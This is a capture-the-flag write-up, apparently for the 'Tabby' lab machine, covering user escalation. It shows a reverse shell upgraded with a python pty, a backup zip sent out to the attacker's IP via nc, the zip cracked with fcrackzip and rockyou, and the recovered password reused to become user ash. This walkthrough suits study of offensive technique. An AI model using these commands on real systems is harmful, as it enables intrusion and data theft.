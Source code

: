# user escalation

* __Shell Upgrade__

 	  id 
 	  uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
 	  python3 -c 'import pty;pty.spawn("bash")'    
 	  tomcat@tabby:/var/lib/tomcat9$ ^Z
 	  [1]+  Stopped                 nc -nvlp 4141
 	  rj@whoisrj:~/vulnBoxes/boxes/tabby$ stty raw -echo; fg
 	  nc -nvlp 4141
 	  
 	  tomcat@tabby:/var/lib/tomcat9$ reset
	  Terminal type? xterm
	  tomcat@tabby:~$ export SHELL=bash
	  tomcat@tabby:~$ export TERM=xterm-256color
	  tomcat@tabby:~$ stty rows 49 columns 234

* in `/var/www/html/files` there is a backup file owned by user `ash`

	  tomcat@tabby:/var/www/html/files$ ls -lsh
	   12K -rw-r--r-- 1 ash  ash  8.6K Jun 16 13:42 16162020_backup.zip                           

* __Load backup file in my local machine__

	  tomcat@tabby:var/www/html/files$ nc -w 4 10.10.15.151 4242 < 16162020_backup.zip
	  rj@whoisrj:~$ nc -nvlp 4242 > 16162020_backup.zip
	    
* __crack zip using fcrackzip__

	`fcrackzip 16162020_backup.zip -v -uDp /usr/share/wordlists/rockyou.txt`
	  
	  'var/www/html/assets/' is not encrypted, skipping
	  found file 'var/www/html/favicon.ico', (size cp/uc    338/   766, flags 9, chk 7db5)
	  'var/www/html/files/' is not encrypted, skipping
	  found file 'var/www/html/index.php', (size cp/uc   3255/ 14793, flags 9, chk 5935)
	  found file 'var/www/html/logo.png', (size cp/uc   2906/  2894, flags 9, chk 5d46)
	  found file 'var/www/html/news.php', (size cp/uc    114/   123, flags 9, chk 5a7a)
	  found file 'var/www/html/Readme.txt', (size cp/uc    805/  1574, flags 9, chk 6a8b)

	  PASSWORD FOUND!!!!: pw == admin@it

* zip have nothing intrested inside zip, but the password worked for user `ash`

### creds
`ash:admin@it`

## User ash
```
tomcat@tabby:/var/www/html$ su - ash
Password: admin@it
ash@tabby:~$ cat user.txt
4d43c7db************************
```
